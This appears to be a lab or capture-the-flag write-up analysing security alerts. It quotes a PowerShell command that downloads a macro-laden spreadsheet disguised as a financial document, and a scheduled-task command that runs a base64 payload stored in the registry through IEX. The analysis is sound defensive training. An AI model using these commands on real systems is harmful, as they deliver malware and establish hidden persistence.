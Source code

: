 Let's break down what this command is doing:

* `powershell.exe` is invoked

* `& {...}` executes a script block

* `$url` defines a URL where the file is hosted, in this case `http://localhost/SwiftSpend_Financial_Expenses.xlsm` 

* `Invoke-WebRequest` downloads the file

* `OutFile` saves the file to the system's directory as `PhishingAttachment.xlsm` 

Red Flags:

* Running `powershell` (LOLBIN)

* `.xlsm` files can contain malicious VBA macros 

* `$env:TEMP` is a common staging location

* Saving the file with name `PhishingAttackment.xlsm` is an obvious indicator for demonstration purposes

We then see the same command ran again five minutes later. Another five minutes later we see a simmilar command with one notable change `\"powershell.exe\" & {$url = 'http://localhost/PhishingAttachment.xlsm' Invoke-WebRequest -Uri $url -OutFile $env:TEMP\\SwiftSpend_Financial_Expenses.xlsm}`

Notable Change:

* The file is again being saved, but instead renamed to `SwiftSpend_Financial_Expenses.xlsm` in order for it to masquerade as a legitimate document

We have found the answer to the first question.

`SwiftSpend_Financial_Expenses.xlsm`

#### Question 2

2. What is the full command run to create a scheduled task?

We can start by searching for `schtasks.exe` which is a native windows tool used to perform tasks at a specified time/interval. You should see four alerts.

![schtasks](https://github.com/user-attachments/assets/63bba209-bdcc-492a-b6ca-33a3468f5858)

If we look at the earliest alert we can find the command we're looking for. 

![schtasks_command](https://github.com/user-attachments/assets/d1b14f0c-ba44-4e72-81e8-257cd85a77e2)

`\"cmd.exe\" /c \"reg add HKCU\\SOFTWARE\\ATOMIC-T1053.005 /v test /t REG_SZ /d cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0= /f & schtasks.exe /Create /F /TN \"ATOMIC-T1053.005\" /TR \"cmd /c start /min \\\"\\\" powershell.exe -Command IEX([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String((Get-ItemProperty -Path HKCU:\\\\SOFTWARE\\\\ATOMIC-T1053.005).test)))\" /sc daily /st 12:34\"`

Let's break this command down:

* `cmd.exe /c` tells CMD to execute the following command string, then terminate

* `reg add` is the command to add a registry key or value
